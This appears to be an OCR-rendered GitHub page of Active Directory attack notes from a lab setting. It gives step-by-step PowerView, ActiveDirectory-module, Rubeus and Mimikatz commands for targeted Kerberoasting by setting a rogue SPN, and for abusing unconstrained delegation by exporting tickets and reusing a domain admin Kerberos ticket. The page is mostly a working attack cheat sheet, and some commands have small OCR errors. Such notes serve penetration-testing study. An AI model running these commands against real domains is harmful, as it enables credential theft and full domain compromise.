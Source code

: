 
## You can request TGS for every account SPN not set to null With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the forest and should be like " random/whoami1 " random would be the service name and whoami1 would be the FQDN of the target server) We can then request a TGS without special privileges. The TGS can then be "Kerberoasted"

## Let's enumerate the permissions for RDPUsers on ACLs using PowerView (dev):
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
## Using Powerview (dev), see if the user already has a SPN:
`Get-DomainUser -Identity supportuser | select serviceprincipalname`
## Using ActiveDirectory module:
`Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName`

## Set a SPN for the user (as said above)
`Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}`
## Using ActiveDirectory module:
`Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}`

## Kerberoast the user
`Rubeus.exe kerberoast /outfile:targetedhashes.txt`


# Kerberos Delegation
## UNCONSTRAINED DELEGATION

# The idea is Discover domain computers which have unconstrained delegation enabled using PowerView :
`Get-DomainComputer -UnConstrained`
## Using ActiveDirectory module:
`Get-ADComputer -Filter {TrustedForDelegation -eq $True}`
`Get-ADUser -Filter {TrustedForDelegation -eq $True}`

## Compromise the server(s) where Unconstrained delegation is enabled and get admin privs. We must trick or wait for a domain admin to connect a service on appsrv. Now, if the command is run again:
`Invoke-Mimikatz–Command '"sekurlsa::tickets /export"'`
## The DA token could be reused:
`Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
